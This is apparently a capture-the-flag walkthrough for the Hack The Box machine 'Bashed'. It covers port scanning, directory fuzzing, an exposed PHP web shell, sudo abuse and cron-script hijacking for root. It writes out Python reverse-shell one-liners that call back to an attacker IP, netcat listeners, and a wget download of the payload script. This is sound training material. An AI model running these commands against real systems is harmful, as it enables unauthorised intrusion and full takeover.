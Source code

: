 # Bashed

**OS:** Linux

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/bashed)  [2](https://app.hackthebox.com/machines/Bashed)

**Machine ip:** 10.10.10.68

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6cf650ac-4c3d-4149-9393-626c443b2480)


# Sections
+ [Enumeration](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/04_Bashed.md#enumeration)
+ [Gaining Access](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/04_Bashed.md#gaining-access)
+ [Privilege Escalation](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/04_Bashed.md#privilege-escalation)
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/04_Bashed.md#links)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.68 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1ff38f3a-a5aa-4493-a119-fa3ad2067bf8)

+ Navigate to `http://10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a21b3006-628d-4a28-ad8b-4e7cfa141a30)

+ Directory fuzzing:
```
feroxbuster -u http://10.10.10.68 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 200,403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a24d471b-2314-4886-a94c-b7fb375d928e)

+ Check `http://10.10.10.68/dev/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5fd4e705-edbc-413a-aea1-c21d4bb841fe)


## Gaining Access

+ Click one of the php files, and gain a semi-interactive web shell.
+ Cat user.txt

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7c07f5a-dc65-41f9-983c-1aa0f5697877)

+ Get more stable revershell. Run on your kali attack vm: `nc -lnvp 4444`
+ Run python reverse shell on the target's browser based semi interactive shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

+ `python -c 'import pty; pty.spawn("/bin/bash")'`
+ `sudo -ll`
+ **www-data** user can run commands as **scriptmanager** user: `sudo -u scriptmanager /bin/bash`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c5a05271-ac94-4d4e-9dd7-418a80eec712)

## Privilege Escalation
+ `cd /`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/896f8a81-478c-41a0-a6e9-5729b1894204)

+ **scripts** directory is interesting: `cd scripts`
+ test.txt file is owned by **root** but it is writable by **scriptmanager**.
+ `ls -la`
+ `cat test.py`
+ `cat test.txt`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/66e2654b-e29e-40be-b014-7f4c4dcb3ad4)

+ The last access time of the `test.txt` file changes every minute. The script runs every minute.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df6a0cd2-5966-4fbb-91b8-5cad62124888)

+ Even `test.txt` file name is changed, exists `test.txt` the same file name each minute again.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49b004f3-46e8-42d6-b672-4765d0cd1df4)

There is a cron job or something like a background process which runs **test.py** script automatically.
Replace **test.py** file with our test.py file containing reverse shell in order to get reverse shell of root user or not.

+ Create `test.py` revershell payload file on your attack machine:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

+ Start listener: `nc lnvp 5555`
+ Transfer it to target machine: `python3 -m http.server`
+ Download `wget 10.10.14.5:8000/test.py` and change the name.
+ Get the root shell:
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c1b923d8-5e44-4c00-b9ab-c0405253686a)

---

# Links

# References & Alternatives
+ https://vvmlist.github.io/#bashed
+ https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/bashed-writeup-w-o-metasploit
+ https://benheater.com/hackthebox-bashed/
+ https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715
+ https://lastlistener.github.io/Walkthroughs--HackTheBox_Bashed_Walkthrough_and_Lessons.html
